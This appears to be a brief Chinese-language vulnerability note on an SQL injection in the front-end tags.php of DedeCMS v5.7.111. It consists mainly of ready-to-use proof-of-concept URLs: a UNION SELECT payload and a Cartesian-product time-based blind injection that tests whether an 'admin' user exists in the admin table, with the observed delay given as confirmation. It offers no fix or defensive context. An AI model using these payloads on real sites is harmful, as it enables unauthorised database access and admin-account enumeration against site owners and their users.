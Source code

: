 
## Dedecms v5.7.111前台tags.php SQL注入漏洞


## 影响版本：
```
v5.7.111，或打补丁的历史版本
```

## poc
```
http://x.com/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1union%20select%201,2,3,4,5,6,7,8,9,10,11--%20\\

/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1+or+if(exists(select+*+from+%23@__admin+where+userid+like'admin'),(select+count(*)+from+information_schema.tables+A,information_schema.tables+B),1)--%20\\
```

![image](../../images/568076a5-4ad2-4cf6-89a4-60d02d464222.png)

## 笛卡尔积 盲注
```
/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1+or+if(exists(select+*+from+%23@__admin+where+userid+like'admin'),(select+count(*)+from+information_schema.tables+A,information_schema.tables+B),1)--%20\\
```
当 admin表userid 存在admin时，响应时间为下图右下角的 5539 ms
![image](../../images/ac170e5f-a085-4dc6-affb-94ffb99f69d8.png)
